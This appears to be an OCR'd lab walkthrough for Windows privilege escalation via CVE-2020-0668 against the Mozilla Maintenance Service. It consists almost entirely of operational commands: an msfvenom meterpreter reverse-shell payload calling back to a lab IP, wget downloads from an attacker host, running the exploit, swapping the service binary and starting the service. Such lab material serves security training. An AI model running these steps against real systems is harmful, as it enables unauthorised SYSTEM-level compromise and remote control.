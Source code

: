 ```
        C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                                          BUILTIN\Administrators:(I)(F)
                                                                          BUILTIN\Users:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)


        Generating Malicious Binary

        $ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe


        Downloading the binary

        For this step we need to make two copies of the malicious .exe file. We can just pull it over twice or do it once and make a second copy.

        We need to do this because running the exploit corrupts the malicious version of maintenanceservice.exe that is moved to (our copy in c:\Users\-student\Desktop that we are targeting) c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe which we will need to account for later. If we attempt to utilize the copied version, we will receive a system error 216 because the .exe file is no longer a valid binary. 

        PS C:\> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice.exe
PS C:\> wget http://10.10.15.244:8080/maintenanceservice.exe -O maintenanceservice2.exe

        -Running

        C:\> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"                                       

        
        -Checking Permissions of New File

        C:\> icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'


        -Replacing File with Malicious Binary



We can overwrite the maintenanceservice.exe binary in c:\Program Files (x86)\Mozilla Maintenance Service with a good working copy of our malicious binary created earlier before proceeding to start the service. In this example, we downloaded two copies of the malicious binary to C:\Users\-student\Desktop, maintenanceservice.exe and maintenanceservice2.exe. Let's move the good copy that was not corrupted by the exploit maintenanceservice2.exe to the Program Files directory, making sure to rename the file properly and remove the 2 or the service won't start. The copy command will only work from a cmd.exe window, not a PowerShell console.

        C:\> copy /Y C:\Users\-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
        
        
        -Exploit
        
        C:\> net start MozillaMaintenance 

```